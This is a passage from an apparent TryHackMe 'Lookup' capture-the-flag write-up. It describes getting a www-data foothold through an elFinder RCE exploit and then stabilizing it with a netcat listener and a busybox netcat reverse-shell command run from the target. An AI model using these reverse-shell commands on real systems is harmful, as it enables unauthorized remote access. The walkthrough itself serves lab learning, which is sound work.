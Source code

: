Get shell access:
```sh
shell
id
```
```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Finally, After gaining access through an elFinder RCE exploit, we obtain a limited shella `foothold` as a `www-data` user.


![](/images/TryHackMe/Lookup/foothold.png)

## 🏴‍☠️ User flag

### Stabilize Shell & Move Laterally

Setup Listener on Your `Local Machine`
```sh
nc -lvnp 3333
```
Then from target Machine(Shell Metasploit):
```sh
busybox nc <your_tun0> 3333 -e bash
```

![](/images/TryHackMe/Lookup/reverse-shell.png)
